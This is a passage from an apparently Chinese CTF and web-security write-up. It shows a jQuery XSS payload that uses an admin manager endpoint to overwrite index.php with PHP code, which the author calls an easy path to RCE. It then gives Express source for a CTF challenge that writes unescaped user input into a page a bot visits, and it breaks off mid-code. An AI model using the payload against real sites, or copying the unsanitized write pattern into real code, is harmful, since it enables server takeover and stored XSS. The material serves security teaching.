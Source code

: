 ```plain
$.get('/manager/?a=1', function(d) {
  let p = $(d).contents().find('input[name="path"]').val();
  let postData = {
    a: 1,
    mode: 'save',
    path: p + '/index.php',
    content: '<?php phpinfo(); ?>'
  };

  $.ajax({
    url: '/manager/index.php',
    type: 'POST',
    contentType: 'application/x-www-form-urlencoded',
    data: postData
  });
});
```

也是可以很容易就进行 rce

当然在 ctf 上也很愿意用这种作为考点，比如华为杯研究赛国赛中这道 startschool

```plain
const express = require('express');
const path = require('path');
var fs = require('fs');
const bodyParser = require('body-parser');
var bot = require('./bot')


const app = express();

app.engine('html',require('express-art-template'))

app.use(express.static('public'));
app.use(bodyParser.json())
app.use(bodyParser.urlencoded({extended: false}))


data_path = "data.html";

//主页
app.get('/', function(req, res) {
    res.sendFile(path.join(__dirname, 'public/index.html'));
});


app.post('/do', function(req, res) {
    fs.writeFile('data.html'," 姓名："+req.body.name+"<br\> 年龄："+req.body.age+"<br\> 专业："+req.body.subject+"<br\> 邮箱："+req.body.mail+"\n",function(error){
        console.log("wriet error")
    });
    bot.visit();
    res.send("<script>alert('提交成功');window.location.href = '/';</script>");
});


app.route('/view')
  .get(function(req, res) {
    res.sendFile(path.join(__dirname, data_path));
  })
  .post(function(req, res) {
    fs.writeFile('data.html'," 姓名："+req.body.name+"<br\> 年龄："+req.body.age+"<br\> 专业："+req.body.subject+"<br\> 邮箱："+req.body.mail+"\n",function(error){
```